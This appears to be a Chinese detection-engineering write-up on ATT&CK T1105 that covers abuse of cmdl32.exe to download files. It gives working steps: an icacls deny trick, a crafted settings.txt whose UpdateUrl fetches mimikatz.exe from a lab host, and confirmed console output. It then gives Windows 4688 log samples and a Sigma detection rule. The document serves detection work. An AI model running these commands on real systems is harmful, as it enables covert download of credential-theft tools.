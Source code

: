 # T1105-Win-利用cmdl32进行文件下载行为

## 来自ATT&CK的描述

攻击者可能会将工具或其他文件从外部系统转移到被攻陷的环境中。可以通过命令控制通道从外部攻击者控制的系统中复制文件，以便将工具带入被攻陷的网络环境中，或通过与另一个工具（如FTP）的替代协议复制文件。文件也可以在Mac和Linux上使用scp、rsync和sftp等本机工具进行复制。

## 测试案例

cmdl32.exe,CMAK（连接管理器管理工具包）使用它来设置连接管理器服务配置文件。配置文件通常打包成一个.exe，可以部署到用户系统。该软件包安装可用于启动拨号/VPN连接的配置文件。

### 步骤一

使用以下命令并且生成相关配置文件。

```yml
icacls %cd% /deny %username%:(OI)(CI)(DE,DC)
set tmp=%cd%
echo [Connection Manager] > settings.txt
echo CMSFile=settings.txt >> settings.txt
echo ServiceName=WindowsUpdate >> settings.txt
echo TunnelFile=settings.txt  >> settings.txt
echo [Settings]  >> settings.txt
echo UpdateUrl=http://10.211.55.2:8000/mimikatz.exe  >> settings.txt
```

### 步骤二

然后继续执行即可下载成功。

```yml
cmdl32 /vpn /lan %cd%\settings.txt
icacls %cd% /remove:d %username%
move VPNBDFF.tmp mimikatz.exe
```

## 检测日志

windows安全日志、其他EDR类产品

## 测试复现

windows server 2016进行测试，测试效果Ok。

```yml
C:\Users\Administrator>cd C:\Users\Administrator\Desktop\test

C:\Users\Administrator\Desktop\test>icacls %cd% /deny %username%:(OI)(CI)(DE,DC)
已处理的文件: C:\Users\Administrator\Desktop\test
已成功处理 1 个文件; 处理 0 个文件时失败

C:\Users\Administrator\Desktop\test>set tmp=%cd%

C:\Users\Administrator\Desktop\test>echo [Connection Manager] > settings.txt

C:\Users\Administrator\Desktop\test>echo CMSFile=settings.txt >> settings.txt

C:\Users\Administrator\Desktop\test>echo ServiceName=WindowsUpdate >> settings.txt

C:\Users\Administrator\Desktop\test>echo TunnelFile=settings.txt  >> settings.txt

C:\Users\Administrator\Desktop\test>echo [Settings]  >> settings.txt

C:\Users\Administrator\Desktop\test>echo UpdateUrl=http://10.211.55.2:8000/mimikatz.exe  >> settings.txt

C:\Users\Administrator\Desktop\test>cmdl32 /vpn /lan %cd%\settings.txt

C:\Users\Administrator\Desktop\test>icacls %cd% /remove:d %username%
已处理的文件: C:\Users\Administrator\Desktop\test
已成功处理 1 个文件; 处理 0 个文件时失败

C:\Users\Administrator\Desktop\test>move VPND1F2.tmp mimikatz.exe
移动了         1 个文件。
```

## 测试留痕

### 日志记录1

```log
创建新进程。4688，windows安全日志

创建者主题:
 安全 ID:  QAX\Administrator
 帐户名:  Administrator
 帐户域:  QAX
 登录 ID:  0xCF2BF2

目标主题:
 安全 ID:  NULL SID
 帐户名:  -
 帐户域:  -
 登录 ID:  0x0

进程信息:
 新进程 ID:  0x40e0
 新进程名称: C:\Windows\System32\icacls.exe
 令牌提升类型: %%1936
 强制性标签:  Mandatory Label\High Mandatory Level
 创建者进程 ID: 0x688
 创建者进程名称: C:\Windows\System32\cmd.exe
 进程命令行: icacls  C:\Users\wangxin\Desktop\test /deny Administrator:(OI)(CI)(DE,DC)
```

### 日志记录二

```log
已创建新进程。

创建者主题:
 安全 ID:  QAX\Administrator
 帐户名:  Administrator
 帐户域:  QAX
 登录 ID:  0xCF2BF2

目标主题:
 安全 ID:  NULL SID
 帐户名:  -
 帐户域:  -
 登录 ID:  0x0

进程信息:
 新进程 ID:  0x12c18
 新进程名称: C:\Windows\System32\cmdl32.exe
 令牌提升类型: %%1936
 强制性标签:  Mandatory Label\High Mandatory Level
 创建者进程 ID: 0x688
 创建者进程名称: C:\Windows\System32\cmd.exe
 进程命令行: cmdl32  /vpn /lan C:\Users\wangxin\Desktop\test\settings.txt
```

### 日志记录三

```log
已创建新进程。

创建者主题:
 安全 ID:  QAX\Administrator
 帐户名:  Administrator
 帐户域:  QAX
 登录 ID:  0xE991EB

目标主题:
 安全 ID:  NULL SID
 帐户名:  -
 帐户域:  -
 登录 ID:  0x0

进程信息:
 新进程 ID:  0x133b8
 新进程名称: C:\Windows\System32\icacls.exe
 令牌提升类型: %%1936
 强制性标签:  Mandatory Label\High Mandatory Level
 创建者进程 ID: 0x12fac
 创建者进程名称: C:\Windows\System32\cmd.exe
 进程命令行: icacls  C:\Users\wangxin\Desktop\test /remove:d Administrator
```

## 检测规则/思路

### sigma规则

```yml

title: Windows下利用cmdl32进行文件下载行为
status: experimental
description:  cmdl32.exe,CMAK（连接管理器管理工具包）使用它来设置连接管理器服务配置文件。配置文件通常打包成一个.exe，可以部署到用户系统。该软件包安装可用于启动拨号/VPN连接的配置文件。攻击者可以利用cmdl32进行简单的文件传输活动。
references:
    - https://www.t00ls.cc/thread-63254-1-1.html
tags:
    - attack.command_and_control
    - attack.execution
    - attack.t1105
logsource:
    product: windows #windows
    service: process_creation #安全事件，进程创建
detection:
    selection:
        ProcessCommandline|contains|all: #进程命令行参数包含以下任意一项
            - 'settings.txt'
        Image|endswith: 
            - 'cmdl32.exe' #进程路径为以wuauclt.exe
    condition: selection
falsepositives:
    - Unknown
level: high
```

### 建议

低版本操作系统无法记录命令行参数及子父进程，建议通过Sysmon进行监控。

## 相关TIP
[[T1105-win-命令提示符网络链接]]
[[T1105-Windows Update可滥用于执行恶意程序行为检测]]

## 参考推荐

MITRE-ATT&CK-T1105

<https://attack.mitre.org/techniques/T1105>

cmdl32代替certutil.exe

<https://www.t00ls.cc/thread-63254-1-1.html>
